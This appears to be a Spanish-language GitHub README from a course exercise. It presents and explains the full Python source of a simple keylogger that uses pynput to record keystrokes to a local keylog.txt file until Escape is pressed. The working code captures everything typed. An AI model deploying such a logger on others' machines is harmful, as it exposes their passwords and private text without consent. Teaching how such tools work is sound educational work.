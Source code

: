 **#SI_T5_P1**

## Descripción
Este keylogger es una herramienta sencilla implementada en Python que registra las teclas presionadas por el usuario. Utiliza la biblioteca `pynput` para escuchar los eventos del teclado y escribir las teclas presionadas en un archivo de texto (`keylog.txt`).

## Funcionamiento
El keylogger captura las teclas presionadas y las almacena en una lista. Cada vez que se presiona una tecla, se verifica si es un espacio y se agrega a la lista correspondiente. Luego, se escribe el contenido de la lista en un archivo de texto. El programa se detiene cuando se presiona la tecla `escape`.

### Código
```python
from pynput.keyboard import Key, Listener

# Lista para almacenar las teclas presionadas
keys = []

# Función que se ejecuta cada vez que se presiona una tecla
def presionar_tecla(key):
    # Si la tecla presionada es la tecla espacio, agrega un espacio a la lista 'keys'
    if key == Key.space:
        keys.append(' ')
    else:
        # De lo contrario, agrega la tecla presionada a la lista 'keys' como una cadena de texto
        keys.append(str(key).replace("'", ""))
    # Llama a la función para escribir las teclas en un archivo
    convertir_string(keys)

# Función para escribir las teclas almacenadas en la lista 'keys' en un archivo
def convertir_string(keys):
    # Abre (o crea) el archivo 'keylog.txt' sobreescribiendo el archivo cada vez que es ejecutado por la (w)
    with open('keylog.txt', 'w') as logfile:
        # Escribe cada tecla de la lista 'keys' en el archivo
        for key in keys:
            logfile.write(key)

# Función que se ejecuta cada vez que se suelta una tecla
def soltar_tecla(key):
    # Si la tecla soltada es la tecla 'esc', retorna False para detener el listener
    if key == Key.esc:
        return False

# Inicializa y comienza el listener que escucha las teclas presionadas y soltadas
with Listener(on_press=presionar_tecla, on_release=soltar_tecla) as listener:
    listener.join()
